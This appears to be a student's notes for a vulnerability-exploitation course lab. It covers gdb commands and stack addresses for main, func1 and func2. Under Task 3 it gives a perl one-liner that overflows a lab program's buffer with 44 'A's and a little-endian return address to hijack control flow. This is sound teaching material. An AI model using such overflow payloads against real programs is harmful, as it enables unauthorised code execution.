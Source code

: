 # Week 3


gdb commands:\
step\
run\
break\
x/8x $esp\
info registers\
disas main


### Task1
In this task, find the ESP, EBP and Return address in the stack frames of the following functions: main, func1, and func2 when the following code is compiled and executed.

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task1a.png">
</p>

|Main Register|Main Address|
|:-----------:|-----------:|
|esp |0xffffd020|
|ebp|0xffffd038|
|main rtn|0x56556276|

|Fun1 Registers|Fun1 Address|
|:-----------:|-----------:|
|esp|0xffffd000|
|ebp|0xffffd018|
|fun1 rtn|0x5655622b|

|Fun2 Registers|Fun2 Address|
|:------:|-----:|
|esp|0xffffcfe0|
|ebp|0xffffcfe8|
|fun2 rtn|0x565561fc|

### Task2
In this task, discover buffer overflow vulnerability and exploit the program of the following code (i.e. print out the following message in the terminal “You have correctly ...Well done!”)

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task2.png">
</p>

### Task 3
In this task, discover buffer overflow vulnerability and exploit the program of the following code (e.g. executing the for loop in the vde_msg() function)


task3:
perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; print "\xc9\x61\x55\x56";' > /tmp/task3input

the ending is the return address being replaced with the address of the function we want to run

in this case the addr is 0x565561c9 but we need to reverse it and then overflow to it
idk why we need to reverse it but we do. 44 A's and the addr

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3a.png">
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task3b.png">
</p>


### Additional Task
Download the serial.c file from moodle. Then compile it and run the program. Try various inputs and see if you can discover any vulnerability and exploit the program (i.e. print the “The serial number is valid” on the command line).

(need to do)
